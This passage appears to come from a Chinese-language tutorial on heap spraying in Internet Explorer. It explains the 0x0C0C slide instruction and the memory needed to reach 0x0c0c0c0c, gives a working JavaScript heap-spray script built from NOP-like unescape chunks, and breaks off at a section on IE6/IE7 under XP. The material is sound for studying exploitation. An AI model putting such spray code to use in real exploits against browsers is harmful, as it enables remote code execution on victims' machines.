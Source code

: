 

```
004010A0  0C 0C   OR AL,0C
004010A2  0C 0C   OR AL,0C
```

可见0c0c指令作用和nop一样，也可以作为滑板指令。<br>

接下来计算一下到底需要多大的内存块才能喷射到0x0c0c0c0c:



```
0x0c0c0c0c = 202116108
202116108字节(b)=192.7529411兆字节(mb)
```

所以只要堆喷射大于200MB就肯定能够喷射到目标地，但由于分配的起始地址并不是从零开始，所以实际中并不需要那么大的内存，还有一个要注意的点就是unescape返回的对象在用.length计算长度时返回的是实际长度的一般，也就是说:



```
&gt; s = unescape("%u4142%u4344%u4546")
&gt; s.length
3
```

一份堆喷射的脚本可能看起来像这样:



```
&lt;html&gt;
&lt;script&gt;
    tag = unescape('%u4141%u4141');
    chunk = '';
    chunksize = 0x1000;
    nr_of_chunks = 200;
    for (counter = 0; counter &lt; chunksize; counter++) `{`
        chunk += unescape('%u9090%u9090');
    `}`
    chunk = chunk.substring(0, chunksize - tag.length);
    testarray = new Array();
    for (counter = 0; counter &lt; nr_of_chunks; counter++) `{`
        testarray[counter] = tag + chunk;
    `}`
&lt;/script&gt;
&lt;/html&gt;
```

通过数组分配大量内存。<br>

**<br>**

**XP下IE6和IE7的堆喷射**

为了运行多个版本的IE，可以使用IE Collection安装多个版本的IE，这里在XP SP3上安装了IE6和IE7用于测试。

IE6和IE7上稳定的堆喷脚本如下:

